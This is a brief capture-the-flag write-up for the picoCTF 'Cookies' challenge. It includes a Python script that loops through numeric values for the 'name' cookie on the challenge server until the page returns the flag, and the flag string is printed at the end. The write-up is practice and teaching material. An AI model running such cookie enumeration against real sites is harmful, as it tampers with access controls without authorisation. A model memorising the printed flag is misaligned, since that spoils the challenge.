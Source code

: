 ## Cookies

This problem requires you to change the cookie "name" to the value that is the flag. We choose to approach this question with a brute force script which wil try every number until the page ouputs a flag.

```python
# Import Libraries
from bs4 import BeautifulSoup
import requests

url = 'http://mercury.picoctf.net:54219/check'

# loop through every number as the value to the cookie
for i in range(18, 100):
    cookies = dict(name=str(i))
    response = requests.get(url, cookies=cookies)

    # Check to see if the page outputted a flag
    soup = BeautifulSoup(response.text, "html.parser")

    if "pico" in response.text:
        flag = soup.select("body > div.container > div.jumbotron > p:nth-child(2)")[0]
        print(flag.get_text())
        break
    
    print("Attempt: ", i)
```

### Flag
`picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`

